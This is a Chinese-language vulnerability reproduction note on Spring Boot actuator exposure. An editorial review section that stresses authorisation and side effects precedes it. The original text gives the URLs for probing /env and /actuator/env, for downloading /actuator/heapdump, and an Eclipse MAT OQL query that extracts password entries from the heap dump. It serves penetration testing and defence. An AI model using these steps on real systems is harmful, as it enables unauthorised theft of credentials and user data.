


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：区分Boot1/2 env路径，但heapdump只给2.x；需JVM支持并单独暴露授权

代码与实验材料：MAT与Hashtable OQL示例完整但仅覆盖一种对象，env有数据不证明heapdump开放

来源证据范围：MAT官方下载，未给Spring配置文档/原研究

- **适用与权限边界（1）**：env可见被当所有敏感端点未授权；依据：可读env不等于能下载heapdump，脱敏env数据也不一定敏感。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **凭据与会话边界（2）**：导出堆的性能与隐私风险缺失；依据：heapdump可暂停应用并生成含凭据/用户数据大文件，不能作为无副作用日常检查。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **操作与副作用边界（3）**：查询范围不完整；依据：Hashtable Entry不能覆盖所有String/Map/驱动配置且关键词不足证明全部密码。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Spring Boot 提取内存密码

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> 访问如下路径如果有数据说明存在漏洞

**Spring Boot 1.x版本**`http://www.0-sec.org:8090/env`

**Spring Boot 2.x版本**`http://www.0-sec.org:8090/actuator/env`

> 当发现存在未授权漏洞时，可以直接访问 `/actuator/heapdump`
> 下载内存，提取密码

`http://www.0-sec.org:8090/actuator/heapdump`

> heapdump文件下载完成之后可以利用Eclipse Memory Analyzer 来解析内存文件

    http://www.eclipse.org/mat/downloads.php

> 匹配内存中password字符串，并不一定能匹配完，可以通过`/actuator/env`得到的`JDBC`信息再来匹配关键字

`select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))`

